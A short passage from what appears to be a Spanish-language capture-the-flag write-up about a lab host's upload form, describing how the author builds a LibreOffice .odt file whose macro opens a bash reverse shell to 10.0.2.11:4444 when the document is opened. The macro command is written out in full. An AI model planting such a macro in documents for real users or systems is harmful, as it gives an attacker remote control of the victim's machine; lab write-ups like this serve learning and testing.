 Vi que en la página http://gyhabogados.thl/work-with-us.php hay un formulario en el que se pueden subir archivos .pdf, .doc y .odt. Asi que me pareció interesante probar a subir un archivo .odt con una Macro que ejecutase una Reverse Shell en el momento de abrir el archivo.

![alt text](captura_2025-05-02_17-21-46.png)

## Explotación

Creo un nuevo archivo .odt con Libre Office y en Tools > Macros > Edit Macros... Creo una nueva Macro llamada Main en el que ejecuto el siguiente comando:

`Shell("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.0.2.11/4444 0>&1")`

![alt text](captura_2025-05-02_17-22-47.png)
